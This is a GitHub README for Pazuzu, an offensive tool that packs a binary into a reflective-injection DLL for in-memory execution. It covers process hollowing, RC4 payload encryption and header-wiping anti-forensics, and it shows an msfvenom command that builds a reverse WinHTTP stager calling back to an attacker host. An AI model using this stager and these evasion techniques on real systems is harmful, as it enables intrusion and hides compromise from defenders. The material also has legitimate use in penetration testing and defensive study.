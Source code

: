 # Pazuzu
Pazuzu is a Python script that allows you to embed a binary within a precompiled DLL which uses reflective DLL injection.
The goal is that you can run your own binary directly from memory. This can be useful in various scenarios. 

For example, if you want to exploit a vulnerability and run your own executable instead of a third party reflective DLL. In this case you just have to choose the stager you like (reverse TCP, HTTP, HTTPS, etc.) and set the DLL generated by Pazuzu. Pazuzu  will execute the binary within the address space of the vulnerable process as long as it has the .reloc section.

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/Docs/reloc.png "Reloc")

**Restrictions**
 
* Not all binaries can be run from memory. For example, applications which require .NET CLR (managed code) won't be run. I will try to implement this in an upcoming version. By now you can download and run .NET application from disk with the -d option (noisy option).
* If .reloc section is not present the script will use a "process hollowing" approach.
* Support for 32-bit for now.

**How-to**
* The script Pazuzu.py accepts as input the binary you want to run from memory (parameter **-f**). Depending on the properties of the binary Pazuzu will choose one of the 3 DLL currently available. These DLL are:
  1. **reloc­x86.dll**: lets you run the binary inside the address space of the process. This option is the most favorable since the binary generates less "noise" in the system. 
  2. **dforking­x86.dll**: the binary in this case also runs from memory but using "process hollowing". This technique is the one used by the ["execute" command with the -m flag](https://community.rapid7.com/community/metasploit/blog/2012/05/08/eternal-sunshine-of-the-spotless-ram) in Meterpreter.
  3. **download­86.dll**: this is the noisiest option since the binary will be downloaded and executed from disk.

* Pazuzu also provides some additional features. For example, the **-x** option will encrypt the section containing the binary by using a random RC4 key (which is stored in the DLL TimeStamp). In addition, after running it the PE header of the DLL and the binary section will be overwritten with zeros. I will add more anti-forensic techniques in future versions.

**Examples**
* To get the Pazuzu DLL I will use a WinHTTP stager:
```
root@kali:~# msfvenom -p windows/dllinject/reverse_winhttp lhost=192.168.1.44 lport=8080 dll=. -f exe -o Winhttp-stager.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 908 bytes
Saved as: Winhttp-stager.exe
```
Let's run Pazuzu.py with the regshot.exe binary (.section present):

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/Docs/ejemplo1.png "Regshot.exe (.reloc present)")

Let's run it now with the verbose option to see more detailed information:

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/Docs/ejemplo2.png "Verbose output")

In the next example I use putty.exe which has no reloc section. I have chosen the system binary "c:\windows\write.exe" (option **-k**) to be "hollowed out" and I have encrypted the binary section with RC4 (option **-x**). The hidden option **-m** just run msfvenom with a winhttp dllinject stager.

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/Docs/ejemplo3.png "Putty.exe (no .reloc present)")

 Here the Process Explorer ouput:

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/Docs/ejemplo3-1.png "Putty.exe (Process Explorer)")

**Video**
* Watch the following video to see a practical example with the Poison Ivy RAT [Video Pazuzu: www.shellsicoming.com] (https://www.youtube.com/watch?v=2OcEbMgQiVo)

**Disclaimer**
* This tool is meant for educational purposes only.
